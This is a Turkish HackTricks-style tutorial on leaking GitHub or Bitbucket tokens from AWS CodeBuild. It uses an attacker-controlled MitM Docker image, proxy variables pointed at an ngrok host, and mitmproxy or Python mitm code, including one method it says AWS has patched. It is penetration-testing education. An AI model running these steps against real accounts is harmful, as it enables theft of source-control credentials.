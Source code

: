 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Github/Bitbucket Yapılandırılmış Token'larını Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Görüntüsü Üzerinden

Eğer örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını bulursanız, Codebuild'i projeyi oluşturmak için **belirli bir docker görüntüsü** kullanmaya zorlayarak bu **erişimi** (**GH token veya OAuth token**) **sızdırabilirsiniz**.

Bu amaçla **yeni bir Codebuild projesi oluşturabilir** veya mevcut birinin **ortamını** değiştirerek **Docker görüntüsünü** ayarlayabilirsiniz.

Kullanabileceğiniz Docker görüntüsü [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **`https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ortam değişkenlerini ayarlayacak çok temel bir Docker görüntüsüdür. Bu, **`https_proxy`** ve **`http_proxy`**'da belirtilen ana bilgisayarın trafiğinin çoğunu kesmenizi ve **`SSL_CERT_FILE`**'da belirtilen SSL CERT'ine güvenmenizi sağlar.

1. **Kendi Docker MitM görüntünüzü oluşturun ve yükleyin**
* Proxy IP adresinizi ayarlamak ve SSL sertifikanızı belirlemek için repo talimatlarını izleyin ve **docker görüntüsünü oluşturun**.
* Metadata uç noktasına yapılan istekleri kesmemek için **`http_proxy`**'yu ayarlamayın.
* Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`.
* Docker görüntünüzü oluşturduktan sonra, **bunu halka açık bir repoya yükleyin** (Dockerhub, ECR...).
2. **Ortamı ayarlayın**
* **Yeni bir Codebuild projesi oluşturun** veya mevcut birinin ortamını **değiştirin**.
* Projeyi **önceden oluşturulmuş Docker görüntüsünü** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızda MitM proxy'yi ayarlayın**

* **Github repo**'sunda belirtildiği gibi, şunu kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bunun çalışmayabileceği bildirildi.
{% endhint %}

4. **Yapıyı çalıştırın ve kimlik bilgilerini yakalayın**

*   Token'ı **Authorization** başlığında görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli üzerinden de şöyle yapılabilir:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP protokolü aracılığıyla~~

{% hint style="success" %}
**Bu zafiyet, 2023'ün 20 Şubat haftasında AWS tarafından bir noktada düzeltildi (sanırım Cuma günü). Bu yüzden bir saldırgan bunu artık kötüye kullanamaz :)**
{% endhint %}

**Yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını sızdırabilir** veya izinler OAuth aracılığıyla yapılandırılmışsa, **koda erişmek için kullanılan geçici OAuth token'ını sızdırabilir**.

* Bir saldırgan, CodeBuild projesine kendi makinesine işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ardından, github reposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Sonra, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından işaret edilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) temel örneğini çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin** (base64) olarak mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Artık bir saldırgan, makinesinden token'ı kullanabilecek, sahip olduğu tüm ayrıcalıkları listeleyebilecek ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay bir şekilde (kötüye) kullanabilecektir.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
